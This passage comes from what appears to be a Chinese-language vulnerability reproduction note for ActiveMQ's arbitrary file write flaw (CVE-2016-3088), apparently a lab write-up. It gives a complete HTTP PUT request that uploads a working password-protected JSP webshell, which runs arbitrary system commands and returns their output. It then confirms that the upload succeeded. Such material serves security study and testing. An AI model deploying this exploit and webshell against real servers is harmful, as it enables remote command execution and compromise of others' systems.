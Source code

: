 访问 webshell（需要登录）：

**漏洞复现**

访问 http://debian:8161/fileserver/ 

![访问](./../../../../../images/vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E8%AE%BF%E9%97%AE.png)

抓包，上传 webshell 

```http
PUT /fileserver/test.txt HTTP/1.1
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 450

<%
        if("023".equals(request.getParameter("pwd"))){
                java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
                int a = -1;
                byte[] b = new byte[2048];
                out.print("<pre>");
                while((a=in.read(b))!=-1){
                        out.println(new String(b));
                }
                out.print("</pre>");
        }
%>
```

访问 http://debian:8161/fileserver/test.txt ，确认文件 test.txt 已经上传
